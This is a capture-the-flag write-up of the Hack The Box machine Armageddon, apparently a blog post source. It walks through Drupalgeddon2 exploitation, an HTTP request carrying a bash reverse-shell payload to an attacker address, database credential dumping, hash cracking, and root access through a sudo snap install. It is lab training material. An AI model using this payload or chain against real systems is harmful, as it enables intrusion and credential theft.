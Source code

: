 ```yaml
---
title: "HTB - Armageddon without MetaSploit"
date: 2021-07-31
categories: ["hacking", "write-ups"]
tags: [HTB]
featuredImage: "/images/2021/07/Armageddon_Logo.png"
---
```

## Intro
During this box, we'll exploit an outdated version of Drupal in order to get an initial shell. This will allow me to discover user credentials on the Drupal DB. Finally, I'll get privesc thanks to an insecure sudo command (once again).

## Target
[HTB - Armageddon](https://app.hackthebox.eu/machines/323)

## Recon
A quick look to the box info reveals it's running Linux.

## Enum
We run our classic `nmap` scan :

```text
sudo nmap -sC -sV -oA scans\armageddon
```
```text
sudo nmap -sC -sV -oA scans/nmap $attacker_ip
 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-08 08:51 CEST
Nmap scan report for $attacker_ip
Host is up (0.025s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
|   256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
|_  256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Welcome to  Armageddon |  Armageddon

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.48 seconds
```

The above scans confirms we are facing a Linux box with only Apache and SSH running. 

The `CHANGELOG.txt` shows a `Drupal 7.56` version :

![Drupal Version](/images/2021/07/Armageddon_Drupal_Version.png)

After a quick look on [exploitDB](https://www.exploit-db.com/), we'll notice that this version should be vulnerable to `Drupalgeddon2`.

Let's see!

## Exploitation
NB: I like to use searchsploit directly in my terminal, it makes it easier to show an exploit with `searchsploit -x relative_path` and `searchsploit -m relative_path` in order to mirror (eg. copy the exploit in my current directory).

In our case, we'll be using : `searchsploit -m php/webapps/44449.rb`.

### Getting Initial Shell
After firing it up, we'll get a shell :

![Initial Shell](/images/2021/07/Armageddon_Initial_Shell.png)

From here, we can get the Drupal config inside `sites/default/settings.php` and find `MySQL credentials` :

![MySQL Credentials](/images/2021/07/Armageddon_Mysql_Creds.png)

Once, we have the creds, we can try to dump the db, with `mysqldump`, but we'll gt an error about a bad character (>). We,then, shall upgrade our shell.

Let's fire up `Burp`, with the following request and a `nc listener` :

```text
POST /shell.php HTTP/1.1
Host: $attacker_ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: has_js=1
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 46

c=bash+-i+>%26+/dev/tcp/10.10.14.11/443+0>%261
```

NB : In case you are wondering, I am using the `shell.php` from the exploit, and I simply copy pasted the URL in browser, captured it with Burp, and converted to POST. Then, I could run a better script.

Once it is done, we can dump the DB like so :

`mysqldump -u drupaluser -p drupal > plop.sql`

We now look inside the dump and search for user's information :

![User Info](/images/2021/07/Armageddon_Dump.png)

It appears our user is called `brucetherealadmin` and it's hash starts with `$S$` according to [hashcat](https://hashcat.net/wiki/doku.php?id=example_hashes), it is a Drupal 7 hash, which we can confirm it is!

Now to crack it :

`hashcat -m 7900 arma.hash /usr/share/wordlists/rockyou.txt`

After a little while, the password will be cracked :

![Cracked hash](/images/2021/07/Armageddon_Cracked.png)

### Getting User's Shell

We can now log in via SSH as `brucetherealadmin` with the just cracked password, and grab `user's flag` :

![User Flag](/images/2021/07/Armageddon_User_Flag.png)

### PrivEsc
Now that we are in, the first thing I like to do is checking if I have `sudo`'s rights. This might be an easy win and it is a lot quieter than running a script such as `LinPeas`.

Bruce can indeed run `sudo snap install` :

![Bruce sudo](/images/2021/07/Armageddon_Bruce_Sudo.png)

When I first did the box, there was nothing on [GTFObins](https://gtfobins.github.io/), but since there is today, let's do it the easy way!

We simply modify the first line, replacing `id` command with `cat /root/root.txt`. 

Finally, we run it like : `sudo snap install plop_1.0_all.snap --dangerous --devmode` in order to get root's flag:

![Root Flag](/images/2021/07/Armageddon_Root_Flag.png)

## Outro
I remember loving the first part until user... but the last part was just horrible. I hated it ! It was actually so painful, that I didn't take any note on the privesc and didn't even planned to do the writeup... but here I am!